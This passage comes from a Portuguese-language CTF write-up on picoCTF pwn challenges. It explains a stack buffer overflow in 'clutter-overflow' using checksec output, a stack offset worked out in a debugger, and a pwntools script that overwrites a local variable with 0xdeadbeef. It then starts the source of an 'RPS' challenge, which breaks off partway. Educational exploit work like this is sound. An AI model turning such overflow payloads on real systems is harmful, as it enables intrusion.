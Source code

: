 ```c
  return 0;
}
```

E aqui o checksec:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Como podemos ver no código fonte, `clutter` é um buffer de caracteres com tamanho `0x100`. Precisamos sobrescrever a variável `long code` com o valor `0xdeadbeef` para imprimir a flag.

Como é uma variável local, `long code` provavelmente estará na pilha. Vamos inserir um breakpoint logo antes da função `gets` e dar uma olhada na pilha nesse momento:

![cof1](/images/davi-post-pwn/clutter-overflow/co1.png)

`0x7fffffffdff0` é o endereço no registro `rbp`. Se olharmos para o valor imediatamente antes disso, há uma série de 0's, que provavelmente são a variável `code`. Eles estão no endereço `0x7fffffffdfe8`. Fazendo uma simples matemática com o endereço do topo da pilha e o endereço da variável, obtemos: `0x7fffffffdfe8 - 0x7fffffffdee0 = 264`. Portanto, precisamos fornecer uma entrada de 264 caracteres + 0xdeadbeef para sobrescrever precisamente a variável code com o `GOAL`.

Aqui o meu solve:

```python
from pwn import *

p = remote("mars.picoctf.net", 31890)

payload = b'A' * 264
payload += p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

## RPS

Esse é um chall simples em que você só precisa ler o source code e ver o que está errado. Aqui está ele:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <time.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60



static const char* flag = "[REDACTED]";

char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
int wins = 0;
```